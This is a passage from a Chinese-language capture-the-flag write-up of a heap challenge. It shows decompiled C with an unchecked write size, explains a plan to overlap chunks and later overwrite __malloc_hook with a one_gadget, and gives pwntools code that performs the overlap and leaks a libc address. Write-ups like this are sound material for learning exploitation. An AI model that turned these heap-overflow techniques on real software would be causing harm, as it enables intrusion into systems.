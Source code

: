 ```c
__int64 __fastcall my_write(__int64 a1)
{
  __int64 index; // rax
  int i; // [rsp+18h] [rbp-8h]
  int size; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  index = get_num();
  i = index;
  if ( (signed int)index >= 0 && (signed int)index <= 15 )// 检查下标范围
  {
    index = *(unsigned int *)(24LL * (signed int)index + a1);// 提取chunk指针
    if ( (_DWORD)index == 1 )                   // 检查inuse位
    {
      printf("Size: ");
      index = get_num();
      size = index;
      if ( (signed int)index > 0 )              // 检查size大于0
      {
        printf("Content: ");
        index = write_chunk(*(_QWORD *)(24LL * i + a1 + 16), size);// 堆溢出，没有对size进行检查
      }
    }
  }
  return index;
}
```

### 思路

利用堆溢出，造成堆重叠（通过 extend 向前合并），泄露出 libc 地址。再次利用堆溢出，造成 fastbin attack（Arbitray Alloc），修改 __malloc_hook 为 onegadget 。

创建非 fastbin 的 chunk0、2 触发 unlink 合并为一个整体；被重叠 chunk1 用于读取 libc 地址；保护避免与 topchunk 合并的 chunk3 。

释放 chunk0 ，修改 chunk1 溢出覆盖 chunk2 的 prev_size 和 size_inuse ，释放 chunk2 触发 unlink 合并。

```python
create(0x80)#0
create(0x10)#1
create(0x80)#2
create(0x10)#3

free(0)
payload = 'a'*0x10 + p64(0xb0) + p64(0x90)
write(1,len(payload),payload)
free(2)

create(0x80)
dump(1)
p.recvuntil("Content: \n")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))
```
